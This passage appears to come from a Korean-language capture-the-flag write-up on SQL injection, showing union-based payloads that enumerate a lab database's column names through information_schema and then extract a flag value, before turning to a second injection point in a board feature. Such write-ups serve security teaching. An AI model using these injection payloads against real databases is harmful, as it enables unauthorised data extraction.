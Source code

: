 ```sql
111' union select column_name from information_schema.columns where table_schema='sqli_6' and table_name='flag_table' limit 1,1 #
```

> **컬럼 이름: `flag`**

테이블명과 컬럼명을 모두 확인하였다.

이제 해당 테이블을 활용하여 **플래그 값**을 추출해보겠다.

```sql
' union select flag from flag_table limit 1,1 #
```

![sqli6 flag](/assets/web-screenshots/sqli-point/sqli_6_flag.png)

**이렇게 최종적으로 flag까지 성공적으로 획득하였다.**

---

## SQL Injection Point 2

이번에는 **게시판 기능을 탐색**해보겠다.
